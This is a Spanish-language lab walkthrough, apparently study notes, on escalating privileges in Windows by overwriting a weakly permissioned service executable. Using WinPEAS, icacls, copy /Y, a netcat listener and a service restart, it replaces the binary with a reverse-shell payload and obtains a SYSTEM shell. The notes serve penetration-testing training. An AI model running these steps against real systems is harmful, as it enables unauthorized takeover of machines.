







> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Servicios: Insecure Service Executable

# 📄 Servicios - Insecure Service Executable

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### ⚙️ Explotando Servicios en Windows

 

La elevación de privilegios en Windows a través de servicios es una técnica utilizada para obtener permisos más altos en un sistema operativo Windows aprovechando vulnerabilidades o debilidades en los servicios que se ejecutan en él. Un servicio en Windows es un programa que se ejecuta en segundo plano y realiza diversas funciones en el sistema.

 

### 🎯 Vectores de Ataque a Servicios

 

Existen varias formas en las que un atacante puede intentar elevar sus privilegios a través de servicios en Windows:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación de Servicios:
> 

> 

> 
> 1. 
> **Explotación de vulnerabilidades conocidas:** Los servicios en Windows pueden contener vulnerabilidades que permiten a un atacante ejecutar código malicioso con privilegios elevados. Si se descubre una vulnerabilidad en un servicio y no se aplica un parche o actualización, un atacante puede aprovecharla para obtener privilegios más altos.
> 
 
> 2. 
> **Uso de servicios débilmente configurados:** Algunos servicios en Windows pueden tener configuraciones débiles que permiten a un atacante modificar su comportamiento o ejecutar comandos con privilegios elevados. Por ejemplo, si un servicio se está ejecutando con privilegios de administrador y se puede manipular su configuración para ejecutar un programa malicioso, el atacante podría obtener privilegios elevados.
> 
 
> 3. 
> **Suplantación de servicios legítimos:** Un atacante puede crear un servicio falso con un nombre similar al de un servicio legítimo y hacer que el sistema lo ejecute automáticamente al inicio. Este servicio falso puede estar diseñado para ejecutar código malicioso con privilegios elevados, engañando al sistema y al usuario.
> 
 
> 4. 
> **Ataques de reescritura de DLL:** En algunos casos, un atacante puede modificar las rutas de búsqueda de DLL (bibliotecas de enlace dinámico) utilizadas por un servicio. Si el atacante logra colocar una DLL maliciosa en una de las rutas de búsqueda, el servicio puede cargar esa DLL en lugar de la legítima, lo que le permite ejecutar código malicioso con privilegios elevados.
> 
 
> 5. 
> **Unquoted Path:** La vulnerabilidad de la ruta no citada es una vulnerabilidad común que puede afectar a los servicios de Windows. Esta vulnerabilidad se produce cuando una ruta de archivo no está encerrada entre comillas dobles ("") en el registro de Windows, lo que puede llevar a un comportamiento inesperado y potencialmente malicioso.
> 

> 

 

### 🛡️ Prevención de Elevación de Privilegios

 

Para prevenir la elevación de privilegios a través de servicios en Windows, es importante seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener actualizado el sistema operativo y los servicios instalados, aplicando los parches y actualizaciones de seguridad correspondientes.
> 
> * Configurar adecuadamente los servicios, minimizando los privilegios necesarios para su ejecución.
> 
> * Utilizar contraseñas seguras para las cuentas de servicio y evitar utilizar credenciales de administrador cuando no sean necesarias.
> 
> * Implementar mecanismos de control de acceso y políticas de seguridad adecuadas.
> 
> * Utilizar soluciones de seguridad, como antivirus y firewalls, para detectar y prevenir ataques.
> 

> 

 

 
 

## 🔍 Descubriendo Vulnerabilidades - Insecure Service Executable

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si los servicios son vulnerables.

 



 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 


 

### 📊 Paso 2: Analizar los Resultados

 

Vemos el documento txt que hemos recibido:

 



 



 

> [!note]
> 
 
> #### 💡 ¿Qué es Insecure Service Executable?
> 
 
> Esta vulnerabilidad ocurre cuando el archivo ejecutable de un servicio tiene **permisos inseguros** que permiten a usuarios no privilegiados modificarlo o reemplazarlo.
> 
> Si un usuario tiene permisos de **escritura** (Write) o **modificación** (Modify) sobre el ejecutable de un servicio que corre con privilegios elevados (como SYSTEM), puede:
> 

> 
> * Sobrescribir el ejecutable legítimo con código malicioso
> 
> * Modificar el binario existente
> 
> * Reemplazarlo completamente por un payload
> 

> 
> Al reiniciar el servicio, Windows ejecutará el código malicioso con los privilegios del servicio.
> 

 

### 🔐 Paso 3: Verificar Permisos con icacls

 

Comprobamos mediante **icacls** los permisos del ejecutable del servicio:

 



 

```cmd
C:\tools> icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
```

 

> [!tip]
> 
 
> #### 🔍 Interpretación de Permisos:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **F**
> 
> 
> 
> 
> **M**
> 
> 
> 
> 
> **W**
> 
> 
> 
> 
> **RX**
> 
> 
> 
> 
> **R**
> 
> 
> 
> 
> 
> | Permiso | Significado | ¿Vulnerable? |
> | --- | --- | --- |
> | | Full Control (Control total) | ✅ Sí - Máxima vulnerabilidad |
> | | Modify (Modificar) | ✅ Sí - Permite sobrescribir |
> | | Write (Escribir) | ✅ Sí - Permite modificar |
> | | Read & Execute (Leer y ejecutar) | ❌ No - Solo lectura |
> | | Read (Leer) | ❌ No - Solo lectura |
> 
 
> **En este caso, vemos que el usuario tiene permisos M (Modify)**, lo que significa que puede sobrescribir el ejecutable.
> 

 

> [!warning]
> 
 
> **⚠️ Vulnerabilidad Crítica:**
> 
> Si **Everyone**, **Users**, **BUILTIN\Users** o tu usuario tiene permisos **M** (Modify), **W** (Write) o **F** (Full Control) sobre el ejecutable de un servicio, puedes reemplazarlo por código malicioso.
> 

 

 
 

## 💥 Explotando la Vulnerabilidad - Insecure Service Executable

 

### 💾 Paso 1: Hacer Copia de Seguridad del Ejecutable Original

 

Antes de sobrescribir el ejecutable, hacemos una copia de seguridad (buena práctica):

 



 

```cmd
C:\tools> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\tools\filepermservice.exe.bak
```

 

> [!note]
> 
 
> #### 💡 ¿Por qué hacer backup?
> 
 

> 
> * Permite restaurar el servicio original después del ataque
> 
> * Útil en entornos de prueba para no dejar el sistema inutilizable
> 
> * Buena práctica en pentesting profesional
> 

> 

 

### 🔄 Paso 2: Sobrescribir con el Payload Malicioso

 

Sobrescribimos el ejecutable del servicio con nuestro `revshell.exe`:

 



 

```cmd
C:\tools> copy /Y C:\tools\revshell.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

 

> [!tip]
> 
 
> #### 🔧 Explicación del Comando:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `copy`
> 
> 
> 
> `/Y`
> 
> 
> 
> 
> `C:\tools\revshell.exe`
> 
> 
> 
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | Comando para copiar archivos |
> | | Sobrescribir sin confirmación (Yes automático) |
> | Origen | (nuestro payload) |
> | Destino | Ruta del ejecutable del servicio |
> 
 

 

### 🎧 Paso 3: Poner Netcat a la Escucha en Kali

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 4: Iniciar el Servicio en Windows

 

```cmd
C:\tools> net start filepermsvc
```

 



 

### ✅ Paso 5: Recibir la Shell en Kali

 

Al iniciar el servicio, Windows ejecutará nuestro `revshell.exe` (que ahora es el ejecutable del servicio) y obtendremos una shell en Kali:

 


 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido una shell con los privilegios del servicio mediante reemplazo del ejecutable. Si el servicio se ejecutaba como **NT AUTHORITY\SYSTEM**, ahora tenemos control total del sistema.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> ```
> 
 
> #### 🔄 Restaurar el Servicio (Opcional):
> 
 
> ```cmd
> C:\tools> copy /Y C:\tools\filepermservice.exe.bak "C:\Program Files\File Permissions Service\filepermservice.exe"
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Los ejecutables de servicios pueden tener permisos inseguros
> 
> * ✅ WinPEAS identifica servicios con ejecutables escribibles
> 
> * ✅ `icacls` muestra permisos detallados de archivos
> 
> * ✅ Permisos M (Modify) o W (Write) permiten sobrescribir ejecutables
> 
> * ✅ Es buena práctica hacer backup del ejecutable original
> 
> * ✅ El comando `copy /Y` sobrescribe sin confirmación
> 
> * ✅ Al iniciar el servicio, se ejecuta nuestro código con privilegios del servicio
> 
> * ✅ Esta es una de las técnicas más directas de escalada de privilegios
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS** → 
> **Identificar ejecutable vulnerable** → 
> **Verificar permisos con icacls** → 
> **Backup del original** → 
> **Sobrescribir con payload** → 
> **Iniciar servicio** → 
> **Shell con privilegios elevados**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Insecure Executable**
> 
> 
> 
> **icacls**
> 
> 
> 
> **Modify (M)**
> 
> 
> 
> **copy /Y**
> 
> 
> 
> **Backup**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Ejecutable de servicio con permisos de escritura para usuarios no privilegiados |
> | | Herramienta para ver y modificar permisos NTFS |
> | | Permiso que permite modificar y sobrescribir archivos |
> | | Sobrescribir archivo sin pedir confirmación |
> | | Copia de seguridad del ejecutable original |
> 

> 
> ### ⚖️ Comparativa con Otras Técnicas:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Insecure Permissions**
> 
> 
> 
> 
> **DLL Hijacking**
> 
> 
> 
> 
> **Unquoted Path**
> 
> 
> 
> 
> **Weak Registry**
> 
> 
> 
> 
> **Insecure Executable**
> 
> 
> 
> 
> 
> | Técnica | Objetivo del Ataque | Requisito |
> | --- | --- | --- |
> | | Modificar configuración del servicio | Permisos sobre el servicio |
> | | Colocar DLL maliciosa en path de búsqueda | Permisos de escritura en directorio |
> | | Ejecutable en ruta intermedia | Ruta sin comillas + permisos directorio |
> | | Modificar ImagePath en registro | Permisos sobre clave registro |
> | | Reemplazar ejecutable del servicio | Permisos de escritura sobre.exe |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Práctica 03-04: Servicios - Weak Registry Permissions
> 
> → Práctica 04-01: Registro - Autorun
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
